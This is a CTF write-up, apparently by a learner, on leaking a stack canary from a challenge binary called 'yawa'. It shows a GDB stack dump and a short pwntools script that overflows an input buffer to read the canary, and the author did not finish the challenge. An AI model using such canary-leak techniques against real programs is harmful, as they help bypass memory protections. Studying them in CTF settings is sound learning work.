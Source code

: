 
### writeup

#### Part 1: leaking the canary
After entering a few spurious inputs and getting my personalised greeting, i could see that something was being leaked presumably from the stack. Unfortunately, I couldn't get any further in this challenge. I found that entering too many characters resulted in the `menu()` function being called repeatedly with no further input being able. 

Looking at the exploit script given by the author, after filling the char array and adding one extra char, the value leaked seems to be the canary based on this code:
```
r = rl()
canary = uu64(r[-9:-2]) << 8
```


Now to go through GDB and look for that value. After quickly looking up a about where the canary value is stored, it seems to be immediately before the RBP:
```
02:0010│ rsi 0x7fffffffdd00 ◂— 0x6161616161616161 ('aaaaaaaa')
... ↓        10 skipped
0d:0068│-008 0x7fffffffdd58 ◂— 0x7026f648863db40a
0e:0070│ rbp 0x7fffffffdd60 ◂— 1
0f:0078│+008 0x7fffffffdd68 —▸ 0x7ffff7c29d90 ◂— mov edi, eax
```

The canary above must be the value before [See this great ctf resource](https://book.jorianwoltjer.com/binary-exploitation/stack-canaries) so above the canary must be at `0x7ffffffffdd58` and and as above, be `0x7026f648863db40a

Interestingly, gdb finds the canary as`00:0000│  0x7fffffffba48 ◂— 0x7026f648863db400` which includes the null byte not present in ours. This explains why this null byte can be overwritten and the value of the canary is unchanged but this throws up the question, why is the canary leaked when we call the 'get personalised greeting' option from the yawa program.

  ```                                       
#!usr/bin/env python3
from pwn import *
context.log_level = 'debug'
exe = ELF("./yawa")
# libc = ELF("./libc.so.6")

io = process([exe.path])
io.sendlineafter(b'>', b'1')
io.sendline(b'a' * 89)
io.sendlineafter(b'>', b'2')
print(io.recvline()) 
r = io.recvline() 
print(r)
canary = u64(r.ljust(8, b'\x00')) << 8
print("Canary: ", hex(canary))

output: 'Canary:  0xa01cf866894234b00'
```
